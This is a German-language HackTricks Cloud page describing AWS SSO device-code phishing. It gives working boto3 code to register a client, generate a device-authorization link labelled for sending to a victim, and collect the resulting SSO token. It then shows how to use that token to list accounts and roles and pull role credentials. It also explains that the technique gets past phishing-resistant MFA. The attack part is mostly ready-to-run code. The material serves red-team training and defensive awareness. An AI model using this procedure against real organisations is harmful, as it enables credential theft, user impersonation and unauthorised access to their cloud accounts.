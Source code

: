 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## AWS Device Code Phishing

Ursprünglich vorgeschlagen in [**diesem Blogbeitrag**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), ist es möglich, einen **Link** an einen Benutzer zu senden, der AWS SSO verwendet, der, wenn der **Benutzer akzeptiert**, dem Angreifer einen **Token zur Verfügung stellt, um den Benutzer zu impersonieren** und auf alle Rollen zuzugreifen, auf die der Benutzer im **Identity Center** zugreifen kann.

Um diesen Angriff durchzuführen, sind die Voraussetzungen:

* Das Opfer muss **Identity Center** verwenden
* Der Angreifer muss die **Subdomain** kennen, die das Opfer verwendet `<victimsub>.awsapps.com/start`

Nur mit den vorherigen Informationen wird der **Angreifer in der Lage sein, dem Benutzer einen Link zu senden**, der, wenn er **akzeptiert** wird, dem **Angreifer Zugriff auf das AWS-Benutzer**konto gewährt.

### Angriff

1. **Finden der Subdomain**

Der erste Schritt des Angreifers besteht darin, die Subdomain herauszufinden, die das Unternehmen des Opfers in ihrem Identity Center verwendet. Dies kann über **OSINT** oder **Raten + BF** erfolgen, da die meisten Unternehmen hier ihren Namen oder eine Variation ihres Namens verwenden werden.

Mit diesen Informationen ist es möglich, die Region zu ermitteln, in der das Identity Center konfiguriert wurde:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generiere den Link für das Opfer & sende ihn**

Führe den folgenden Code aus, um einen AWS SSO-Login-Link zu generieren, damit das Opfer sich authentifizieren kann.\
Für die Demo führe diesen Code in einer Python-Konsole aus und verlasse sie nicht, da du später einige Objekte benötigst, um das Token zu erhalten:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send den generierten Link an das Opfer unter Verwendung deiner großartigen Social Engineering Fähigkeiten!

3. **Warte, bis das Opfer es akzeptiert**

Wenn das Opfer **bereits bei AWS angemeldet** war, muss es nur die Berechtigungen akzeptieren. Wenn nicht, muss es sich **anmelden und dann die Berechtigungen akzeptieren**.\
So sieht das Prompt heutzutage aus:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Erhalte SSO-Zugriffstoken**

Wenn das Opfer das Prompt akzeptiert hat, führe diesen Code aus, um **ein SSO-Token zu generieren, das den Benutzer impersoniert**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Der SSO-Zugriffstoken ist **8 Stunden gültig**.

5. **Benutzer impersonifizieren**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing der unphishbaren MFA

Es ist interessant zu wissen, dass der vorherige Angriff **auch funktioniert, wenn eine "unphishbare MFA" (webAuth) verwendet wird**. Dies liegt daran, dass der vorherige **Workflow niemals die verwendete OAuth-Domain verlässt**. Anders als bei anderen Phishing-Angriffen, bei denen der Benutzer die Anmeldedomain ersetzen muss, ist im Fall des Gerätecode-Workflows vorgesehen, dass ein **Code von einem Gerät bekannt ist** und der Benutzer sich sogar auf einem anderen Gerät anmelden kann. Wenn die Eingabeaufforderung akzeptiert wird, kann das Gerät, nur durch **Kenntnis des ursprünglichen Codes**, **Anmeldeinformationen** für den Benutzer **abrufen**.

Für weitere Informationen dazu [**prüfen Sie diesen Beitrag**](https://mjg59.dreamwidth.org/62175.html).

### Automatische Werkzeuge

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## Referenzen

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
